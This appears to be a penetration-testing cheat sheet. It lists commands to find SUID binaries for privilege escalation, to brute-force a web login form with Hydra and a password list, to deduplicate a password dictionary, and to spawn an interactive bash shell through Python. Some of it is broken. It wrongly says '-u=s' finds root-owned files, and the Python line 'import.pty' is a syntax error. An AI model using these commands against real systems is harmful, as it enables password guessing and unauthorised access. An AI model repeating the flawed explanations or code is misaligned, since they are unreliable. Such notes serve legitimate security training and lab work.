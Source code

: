 Find all files with SUID bit

    find / -perm -u=s -type f 2>/dev/null

or

    find / -perm -4000 -type f 2>/dev/null

Explanation:

    /denotes  start from the top (root) of the file system and find every directory
    -permdenotes search for the permissions that follow
    -u=sdenotes look for files that are owned by the root user
    -typestates the type of file we are looking for
    f denotes a regular file not the directories or special files
    2 denotes to the second file descriptor of the process, i.e. stderr (standard error)
    > means redirection
    /dev/null is a special filesystem object that throws away everything written into it.


Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt

To remove all duplicates in a dictionary file

    cat filename.txt | sort | uniq > outfile.txt

Spawn bash

    python -c 'import.pty;pty.spawn("/bin/bash")'
